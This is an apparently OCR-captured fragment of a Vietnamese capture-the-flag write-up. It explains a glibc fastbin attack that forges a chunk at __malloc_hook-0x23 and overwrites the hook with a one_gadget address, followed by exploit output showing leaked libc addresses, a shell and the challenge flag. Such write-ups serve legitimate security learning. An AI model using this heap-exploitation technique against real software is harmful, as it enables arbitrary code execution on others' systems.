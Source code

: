 Nếu mình ghi thẳng vào malloc_hook nó sẽ xem địa chỉ của malloc_hook là metadata, có prev_size và size, khi malloc nó sẽ như sau:
  <h4>
  
    0x7ffff7dd1b10 <__malloc_hook>: 0x0000000000000000      0x0000000000000000
Như ta thấy thì size của chunk này là 0x0 nên sẽ không phù hợp vì ta cấp phát 1 chunk có size là 0x70 ở bin. Vậy nên vị trí malloc_hook -0x23 thì vị trí của size mặc định là 0x7f vừa phù hợp với size ta malloc.

  <h4>
  
    malloc_hook-0x23: 0x7ffff7dd1aed <_IO_wide_data_0+301>:   0xfff7dd0260000000      0x000000000000007f. Ta có thể bypass được check.
Khoảng cách giữa malloc_hook và phần data(malloc_hook-0x23) là 0x13, ta chỉ cần đưa one_gadget vào vị trí sau 13 bytes rác là ghi đè malloc_hook thành công.
  <h4>
  
    0x7ffff7dd1b10 <__malloc_hook>: 0x00007ffff7afd364(one_gadget)      0x0000000000000000
Giờ ta chỉ cần gọi malloc 1 lần nữa là get được shell.
  <h4>
  
          Arch:     amd64-64-little
          RELRO:    Partial RELRO
          Stack:    Canary found
          NX:       NX enabled
          PIE:      PIE enabled
      puts:  0x7f96b8e346a0
      Base:  0x7f96b8dc5000
      One:  0x7f96b8eb5364
      Malloc:  0x7f96b9189b10
      Add...
      Add...
      Free...
      Free...
      Free...
      Add...
      Add...
      Add...
      Add...
      [*] Switching to interactive mode
      Noted, this is tribute 2
      What would you like to do?
       [0] Draft a new tribute
       [1] Remove a tribute from the list (because someone volunteered in their place again, people should really stop doing that, it messes with our management system)
       [2] See an overview of the current tributes
       [3] Start the games, may the odds be ever in your favor!
      > $ cat flag.txt
      ictf{s4n1c_w1ns_th3_hung3r_G4M3S!}
      $
